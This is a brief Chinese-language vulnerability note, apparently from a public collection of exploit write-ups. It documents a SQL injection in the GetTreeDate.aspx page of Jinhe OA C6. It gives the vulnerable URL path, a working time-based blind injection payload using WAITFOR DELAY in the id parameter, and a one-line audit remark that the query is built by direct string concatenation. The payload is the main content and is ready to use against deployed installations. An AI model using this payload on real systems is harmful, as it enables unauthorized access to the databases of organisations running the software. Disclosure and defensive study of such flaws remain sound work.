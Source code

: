 # 金和OA C6-GetTreeDate.aspx sql注入漏洞

     

### 1. 漏洞链接

http://xx.xx.xx.xx/C6/Jhsoft.Web.users/GetTreeDate.aspx/?id=1

### 2. 复现步骤

http://xx.xx.xx.xx/C6/Jhsoft.Web.users/GetTreeDate.aspx/?id=1%3bWAITFOR+DELAY+'0%3a0%3a5'+--%20and%201=1

### 3. 代码审计

直接拼接sql语句导致注入产生
